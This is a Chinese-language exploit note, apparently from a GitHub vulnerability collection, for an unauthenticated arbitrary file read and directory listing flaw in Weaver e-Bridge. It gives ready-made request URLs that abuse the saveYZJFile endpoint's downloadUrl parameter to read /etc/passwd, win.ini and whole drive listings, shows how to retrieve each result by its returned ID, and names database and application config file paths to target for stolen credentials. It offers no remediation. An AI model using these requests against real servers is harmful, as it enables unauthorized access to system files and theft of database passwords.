 # 泛微云桥任意文件读取

1.未授权读取。直接调用exp就OK 

```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt 

http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt 
```

2.任意读取linux的passwd值

可在响应包中JSON中包含ID的32位值

 再次请求可获得/etc/passwd值

```
 http://www.xxx.com/FileNoLogin/32位MD5值 
```



```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![image-20201020131557916](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131557916.png)

![image-20201020131608856](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131608856.png)

![image-20201020131618615](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131618615.png)

3.任意读取winodws下的win.ini值 未授权任意文件读取,/wxjsapi/saveYZJFile接口获取filepath,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路

径从而下载数据库配置文件危害可见。
 1.downloadUrl参数修改成需要获取文件的绝对路径,记录返回包中的id值。 

```
http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt
```

![image-20201020131651995](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131651995.png)

2.通过查看文件接口访问 /file/fileNoLogin/id

![image-20201020131709565](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131709565.png)

3.其他利用技巧(读取任意目录文件) 简单说说昨天泛微云桥的报告,输入文件路径->读取文件内容,我们读了一下代码后发现这还能读取文件目录。 参数不填写绝对路径写进文本内容就是当前的目录,产生了一个新的漏洞 “目录遍历” 

```
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt
```

![image-20201020131743737](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131743737.png)

目录遍历+文件读取,我们能做的事情就很多了,比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx代理配置、访问日志、D盘 迅雷下载:

d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微OA数据库



![image-20201020131806330](.resource/%E6%B3%9B%E5%BE%AE%E4%BA%91%E6%A1%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/image-20201020131806330.png)